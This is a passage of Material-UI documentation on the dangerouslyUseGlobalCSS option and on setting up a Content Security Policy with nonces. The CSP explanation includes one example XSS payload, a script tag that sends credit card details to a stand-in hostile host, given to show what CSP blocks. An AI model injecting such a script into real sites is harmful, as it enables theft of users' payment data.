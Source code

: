 ⚠️ **Be cautious when using `dangerouslyUseGlobalCSS`.** We provide this option as an escape hatch for prototyping. Relying on it for code running in production has the following implications:

- Global CSS is inherently fragile. People use strict methodologies like [BEM](http://getbem.com/introduction/) to workaround the issue.
- It's harder to keep track of `classes` API changes.

⚠️ When using `dangerouslyUseGlobalCSS` standalone (without Material-UI), you should name your style sheets using the `options` parameter:

```jsx
// Hook
const useStyles = makeStyles(styles, { name: 'button' });

// Styled-components
const Button = styled(styles, { name: 'button' })(ButtonBase);

// Higher-order component
const Button = withStyles(styles, { name: 'button' })(ButtonBase);
```

## Content Security Policy (CSP)

### What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add a server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/next/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```
